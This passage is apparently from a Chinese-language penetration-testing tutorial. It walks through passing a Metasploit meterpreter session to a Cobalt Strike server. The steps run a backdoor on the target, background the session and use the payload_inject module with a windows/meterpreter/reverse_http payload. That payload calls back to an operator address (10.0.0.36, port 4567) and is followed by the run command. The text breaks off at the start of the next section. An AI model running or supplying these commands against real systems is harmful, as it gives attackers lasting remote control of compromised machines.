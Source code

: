 去靶机执行后门程序 等待返回 meterpreter

2.4 后台当前session

background

## 3 使用CS进行监控

1 加载MSF的payload 注入功能

use exploit/windows/local/payload_inject

2 设置payload

set payload windows/meterpreter/reverse_http

3   查看配置参数

show options

set lhost 10.0.0.36

设置cs服务器地址

4 set lport 4567

设置cs监听端口

5 set session 1

设置监控会话

6 set disablepayloadhander true

设置当前msf不接受监听数据

7 run

执行设置

4 CS开始实战操作
